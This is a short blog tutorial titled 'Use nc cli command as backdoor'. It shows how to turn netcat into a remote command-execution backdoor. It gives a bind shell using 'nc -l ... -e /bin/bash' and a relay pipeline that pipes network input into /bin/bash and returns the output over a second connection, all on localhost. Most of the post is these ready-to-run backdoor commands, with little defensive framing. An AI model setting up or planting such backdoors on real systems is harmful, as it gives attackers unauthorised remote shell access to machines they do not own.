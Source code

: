 ```yaml
---
layout: post
title:  "Use 'nc' cli command as backdoor"
author: dave
date:   2023-12-20 15:30:59 +0200
categories: [Reversing, *nix Security]
tags: [Reversing, *nix Security, Networking]
published: true 
---
```


## Synopsis
Netcat (or nc) is a command-line utility that reads and writes data across network connections, using the TCP or UDP protocols. It is one of the most powerful tools in the network and system administrators arsenal, and it as considered as a Swiss army knife of networking tools.

Netcat is cross-platform, and it is available for Linux, macOS, Windows, and BSD. You can use Netcat to debug and monitor network connections, scan for open ports, transfer data, as a proxy, and more.


### Use 'nc' as backdoor for remote cmd execution
#### The easy way
Earlier the **nc** command supported the **'-e'** flag which allowed the client to execute commands on the server and receive the output. This command flag may not be available anymore today on modern systems (specially macOS). But for completeness here is an example of how to use it.

**Server**

```bash
nc -l 9999 -e /bin/bash
```

**Client**

```bash
nc 127.0.0.1 9999 ls
```
Output on client will be something like:

```bash
Applications
Desktop
Documents
Downloads
Movies
Music
Pictures
...
```

#### The 'old fashioned' way
With some (newer) versions of **nc** or on macOS for example you don't have the option of using the **-e** flag for executing commands on the target. But don't despair just yet, there is another way. You can use **nc** in another way to execute commands on the target and even get response of the executed commands. It's just a little more fingerworks to do.

The basic setup involves a **server** where you accept commands just the way you would do with the **-e** command, but as long as you cannot use this flag, you will have to forward the output to the interpreter by your self. This can be done with:

```bash
nc -l 6969 | /bin/bash
```
This command on the server side will forward all incomming messages to _/bin/bash_ and execute it, so far so well! But what is with the response? If you setup the connection between server and client like this, the client will get no response what so ever from the server and that might a be little bit poor. So what can we do?

What we can do, is to use the server as some kind of relay to execute the incomming command and then forward the result to another nc connection back to the client. So how will the setup Look like? First you setup a terminal on the client with the following command listening for results:

```bash
nc -l 6968
```

Then you setup the server with the relay listening for incomming commands, executeing them and forwardening the result back to the client with:

```bash
nc -l 6969 | /bin/bash | nc 127.0.0.1 6968
```

All that is left to do now is to setup a client connection to the server from where you can send commands with the following:

```bash
nc 127.0.0.1 6969
```

Now you can send commands from the client to the server and receive the results of the executed commands in the second terminal on the client.

### Overview

##### Console on CLIENT for output
```bash
nc -l 6968
```

##### Console on SERVER
```bash
nc -l 6969 | /bin/bash | nc 127.0.0.1 6968
```

##### Console on CLIENT for sending commands
```bash
nc 127.0.0.1 6969
```

## Credits
- [_linuxhandbook.com_](https://linuxhandbook.com/nc-command/){:target="_blank" rel="noopener"}
- [_linuxize.com_](https://linuxize.com/post/netcat-nc-command-with-examples/){:target="_blank" rel="noopener"}
- [_unix.stackexchange.com_](https://unix.stackexchange.com/questions/352490/is-nc-netcat-on-macos-missing-the-e-flag){:target="_blank" rel="noopener"}